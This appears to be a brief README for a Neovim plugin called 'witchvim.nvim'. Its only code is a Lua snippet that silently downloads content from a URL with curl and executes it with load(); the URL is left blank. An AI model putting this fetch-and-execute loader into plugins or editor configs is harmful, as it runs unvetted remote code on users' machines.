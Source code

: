 # witchvim.nvim
just seemed like a fun little project

```lua
local url = 
assert(load(vim.fn.system({
  "curl",
  "-s", 
   url 
})))()
```
